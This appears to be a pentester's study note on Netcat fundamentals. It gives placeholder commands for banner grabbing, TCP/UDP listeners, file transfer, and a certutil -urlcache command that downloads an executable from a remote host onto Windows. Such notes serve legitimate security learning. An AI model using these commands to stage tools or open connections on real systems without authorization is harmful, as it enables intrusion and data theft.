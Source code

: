 ```yaml
---
up: "[[Shells]]"
---
```


# Netcat Fundamentals

- Netcat is a network utility used to read and write data to network connection using TCP and UDP
- It is available on both Linux and Windows
- It utilizes a client-server communication architecture with two modes:
	- Client mode: used to connect to any TCP/UDP port
	- Server mode: used to listen for connections for clients on a specific port
- Netcat is used by pentesters to do the following:
	- banner grabbing
	- port scanning
	- transferring files
	- bind/reverse shells

## Demonstration

```bash
# banner grabbing
$ nc -nv <ip> <port>
# setup a listener (TCP)
$ nc -lvnp <port>
# connect to listener (TCP)
$ nc.exe -nv <ip> <port>
# setup a listener (UDP)
$ nc -lvnup <port>
# connect to listener (UDP)
$ nc.exe -nvu <ip> <port>
```

```bash
# kali windows executables
$ ls al /usr/share/windows-binaries
# transfer it
$ certutil -urlcache -f http://<ip>/<exe> <exe>
```

How to transfer files with netcat:

```bash
# listener
>nc.exe -lvnp <port> > test.txt
# connect to
$ nc -nv <ip> <port> < test.txt
```
